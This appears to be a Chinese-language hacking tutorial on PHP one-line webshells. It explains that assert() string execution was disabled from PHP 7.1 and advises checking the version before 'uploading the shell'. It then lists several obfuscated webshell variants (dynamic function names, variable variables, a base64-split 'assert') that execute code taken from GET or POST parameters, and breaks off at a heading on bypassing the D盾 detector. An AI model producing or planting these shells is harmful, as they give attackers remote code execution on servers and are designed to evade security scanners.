 ![](img/1.png)
在php 7.2的版本说明中,对`assert()`函数传入字符串参数（变量）已经被禁用。 而这个禁用特性经过测试是从 php 7.1 版本开始的。所以现在很多马都失效了其实就是这个原因，以后渗透前先看看版本再上马。

所以如果想要执行就必须要通过以下方式执行
```php
<?php
assert($_GET['shell']);
?>
```
那和没变不还是一样吗?php你搞我。

## 最常见一句话马的多种变形

> 以下挂马均为 <7.1

**动态字符串绕过型**
```php
<?php
$a = "assert";
$a(@$_GET['shell']);
?>
```

**双$$符号绕过**
```php
<?php
$bb="assert";
$a='bb';
$$a($_POST['shell']);
?>
```
`$$a`为一个变量，`$a`的值为 bb 则 `$$a = $($a)=$bb` 等同于 `$bb` 

**Base64绕过**

```php
<?php
$a='YXN';
$b='zZX';
$c='J0';
$D=$a.$b.$c;
$x=base64_decode($D);
$x($_GET['a']);
?>
```
`YXNzZXJ0` 是 `assert` 的base64编码，base64_decode()是base64解密函数

---

## BypassD盾
